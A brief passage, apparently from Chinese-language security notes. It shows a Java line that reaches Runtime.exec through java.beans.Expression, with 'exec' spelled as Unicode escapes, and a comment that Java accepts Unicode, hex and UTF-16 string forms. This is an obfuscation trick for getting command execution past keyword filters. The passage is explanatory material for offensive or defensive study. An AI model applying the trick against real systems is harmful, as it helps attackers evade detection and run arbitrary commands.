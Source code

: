 ![image-20220111094914373](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220111094914373.png)

```java
Expression expression = new Expression(Runtime.getRuntime(), "\u0065" + "\u0078" + "\u0065" + "\u0063", new Object[]{payload});
```

java对于字符串会自动转换编码哦，所以什么unicode，hex，utf-16这些都可以直接使用的。